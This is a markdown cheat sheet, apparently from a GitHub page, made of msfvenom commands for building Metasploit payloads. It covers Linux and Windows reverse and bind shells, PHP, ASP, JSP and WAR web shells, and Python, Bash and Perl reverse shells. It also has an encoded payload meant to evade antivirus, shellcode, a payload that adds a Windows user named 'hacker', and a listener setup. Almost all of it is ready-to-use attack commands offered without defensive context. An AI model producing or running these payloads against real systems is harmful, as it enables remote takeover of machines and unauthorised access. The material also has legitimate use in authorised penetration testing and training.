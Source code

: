 # 🟢 MSFVenom

### List Payloads

```
msfvenom -l
```

### Binaries Payloads

**Linux Meterpreter Reverse Shell:**

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f elf > shell.elf
```

**Linux Bind Meterpreter Shell**

```
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > bind.elf
```

**Linux Bind Shell**

```
msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > term.elf
```

**Windows Meterpreter Reverse TCP Shell**

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
```

**Windows Reverse TCP Shell**

```
msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
```

**Windows Encoded Meterpreter Windows Reverse Shell**

```
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
```

### Web Payloads

**PHP Meterpreter Reverse TCP**

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php
```

**ASP Meterpreter Reverse TCP**

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f asp > shell.asp
```

**JSP Java Meterpreter Reverse TCP**

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp
```

### WAR

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war
```

### Scripting Payloads

**Python Reverse Shell**

```
msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py
```

**Bash Unix Reverse Shell**

```
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
```

**Perl Unix Reverse shell**

```
msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl
```

### Shellcode

**Windows Meterpreter Reverse TCP Shellcode**

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```

**Linux Meterpreter Reverse TCP Shellcode**

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```

**POP Calulator**

```
msfvenom -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f c
```

### Create User

```
msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe
```

### Metasploit Handler

```
use exploit/multi/handler
set PAYLOAD <Payload name>
set RHOST <Remote IP>
set LHOST <Local IP>
set LPORT <Local Port>
Run
```
